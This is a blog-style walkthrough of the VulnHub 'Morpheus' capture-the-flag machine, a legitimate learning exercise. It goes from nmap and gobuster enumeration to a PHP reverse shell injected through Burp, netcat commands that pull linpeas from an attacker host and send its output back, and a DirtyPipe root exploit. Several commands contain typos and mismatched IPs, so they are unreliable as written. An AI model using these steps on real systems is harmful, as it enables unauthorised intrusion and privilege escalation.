








# Matrix Breakout 2 Morpheus Walkthrough

Welcome to our in-depth walkthrough of the Matrix Breakout 2 machine, a challenging and educational penetration testing environment provided by VulnHub. This is the second machine in the Matrix-Breakout series, themed as a throwback to the first Matrix movie. You play Trinity, trying to investigate a computer on the Nebuchadnezzar that Cypher has locked everyone else out from, which holds the key to a mystery.
In this walkthrough, we'll guide you through the process of enumerating and compromising the Morpheus 12 machine, using a combination of tools and techniques to identify vulnerabilities and gain access to the system.
[Download Matrix Breakout 2: Morpheus](https://www.vulnhub.com/entry/matrix-breakout-2-morpheus,757/)


## Lab Setup

To follow along, we'll be using VirtualBox with a bridged network connection.
To get started, we'll begin by identifying the target machine's IP address using  the arp scan 

```sh
 sudo arp-scan -l
```

We have :

- **Target Machine (Morpheus):** 192.168.159.134 
- **Attacker Machine:** 192.168.159.12

## Enumeration

From there, we'll dive into the enumeration process, exploring various techniques to uncover vulnerabilities and ultimately gain access to the system and nmap knows how to do this best by telling us what ports are open and the services running on them.

### Nmap Scan

```sh
nmap -sV -sC -p- -A <IP address>
```

--- Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-24 04:40 WAT
--- Nmap scan report for 192.168.159.132
--- Host is up (0.00060s latency).
--- Not shown: 65532 closed tcp ports (reset)
--- PORT   STATE SERVICE VERSION
--- 22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
--- | ssh-hostkey: 
--- |_  256 aa:83:c3:51:78:61:70:e5:b7:46:9f:07:c4:ba:31:e4 (ECDSA)
--- 80/tcp open  http    Apache httpd 2.4.51 ((Debian))
--- |_http-title: Morpheus:1
--- |_http-server-header: Apache/2.4.51 (Debian)
--- 81/tcp open  http    nginx 1.18.0
--- | http-auth: 
--- | HTTP/1.1 401 Unauthorized\x0D
--- |_  Basic realm=Meeting Place
--- |_http-server-header: nginx/1.18.0
--- |_http-title: 401 Authorization Required
--- MAC Address: 00:0C:29:33:22:92 (VMware)
--- No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
--- TCP/IP fingerprint:
--- OS:SCAN(V=7.94SVN%E=4%D=4/24%OT=22%CT=1%CU=39718%PV=Y%DS=1%DC=D%G=Y%M=000C2
--- OS:9%TM=66287F38%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10B%TI=Z%CI=Z%I
--- OS:I=I%TS=A)OPS(O1=M5B4ST11NW6%O2=M5B4ST11NW6%O3=M5B4NNT11NW6%O4=M5B4ST11NW
--- OS:6%O5=M5B4ST11NW6%O6=M5B4ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88
--- OS:%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M5B4NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%
--- OS:S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%
--- OS:RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W
--- OS:=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
--- OS:U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%D
--- OS:FI=N%T=40%CD=S)

--- Network Distance: 1 hop
--- Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

--- TRACEROUTE
--- HOP RTT     ADDRESS
--- 1   0.60 ms 192.168.159.132

--- OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
--- Nmap done: 1 IP address (1 host up) scanned in 24.63 seconds

Using Nmap, we discovered the following open ports:

**22 (SSH)**
**80 (HTTP)**
**81 (HTTP)**

We visited the web page at http://192.168.159.134(Port 80).We see a webpage briefing  us on who  we are and our mission



## Directory Bursting
We use Gobuster to search for additional directories:


```sh 
gobuster -u http://192.168.159.132 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt 
```

During our search, we discovered some interesting files and pages:

--http://192.168.159.132/javascript
http://192.168.159.132/robot.txt
http://192.168.159.132/graffiti.php
http://192.168.159.132/graffiti.txt

## Gaining Shell

We've discovered something intriguing in the directories. The output from /graffiti.php redirects to /graffiti.txt, which could be quite useful for us. To leverage this, we'll manipulate the HTTP request and response using our trusted tool, Burp Suite. This allows us to thoroughly analyze and potentially exploit these findings.



**How do we do that?**

Make sure your browser is set to use Burp Suite as its proxy. An easy and popular way to do this is by using the FoxyProxy extension. Once enabled, you can add Burp Suite as a proxy, making the process faster and more efficient
Once we open Burp,
Have the interceptor on,
Load the page from the browser,
Check the HTTp response of the /graffiti.php,
Send to repeater


With this repeater, we can insert a malicious or reverse shell code to gain a shell session. We will be going with a reverse shell code from pentestmonkey reverse shell from git.
[Pentestmonkey Reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)


 We are going to copy that code into our burp, add our listening machine and listening port, create a netcat listener on our attacking machine

```sh
nc -nlvp 4444
```


 
 And we are in!..
 Let go around and find our id and priviledges

 

 We found our first Flag.....where are the fireworks?🎉🎇🎆🎊🎉🎇🎆🎊🎉🎇🎆🎊🎉🎇🎆🎊

  .

## Gaining Root
We might have gained shell as www-data... but that is low level user but to be able to get back our machine, we need to escalate our priviledges by working our way to root. Let us find out the vuneabilities usin LinPeas
LinPEAS is a script designed to search for possible paths to escalate privileges on a Linux system by identifying vulnerabilities and misconfigurations. We are going to elevate our privileges by first running LinPEAS and checking for vulnerabilities.
Firstly download linpeas from git
[LinPeas](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh)

**Or**
Create a linpeas.sh file 
```sh
nano linpeas.sh
```
Go to linpeas.sh, copy the code and paste into your file. 



Anyone that works well for you.Chnage the mode to make the scrippt executable


```sh
chmod +X linpeas.sh
```

Host a http server inthe directory the file is saved
```sh
python -m http.server 80
```


On the www-data shell, download the file from the  http server using wget 
```sh
wget http:<Attacker IP address>:80
```
This will download the linpeas script 
Make sure the script is executable (remember chmod)
Then run
```sh
./linpeas.sh
```

This process usually takes a lot of time and generates extensive data, so a cleaner approach is to save the results to a file called output. Then, transfer this file back to your machine for thorough examination.
```sh 
./linpeas >> output

```
Send back to your machine 
```sh 
nc <Attacker IP address> 4000 < output
```

From the output we find out  our system is vunerable  to **CVE-2022-0847 DirtyPipe**


We open our browser and find DirtyPipe EXploits from Alexis Ahmed. This exploit is written in C so we need gcc to be able to complie that and lucky for us, the exploit comes witha file that automatically compiles the script.All we have to do is follow the instructions  and download

[DirtyPipe](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits/blob/main/exploit-1.c)

```sh
wget https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits/blob/main/exploit-1.c
```



we change the mode to make the file executable


Ta-da! We've rooted this machine!



Morpheus 12 on VulnHub is an easy-rated CTF machine that focuses on web enumeration and privilege escalation. The Dirty Pipe exploit adds a fun twist to the challenge. It's a great learning resource for beginners looking to practice their penetration testing skills.

Thank you for joining the walkthrough! I hope you enjoyed it.

***WhiteJ**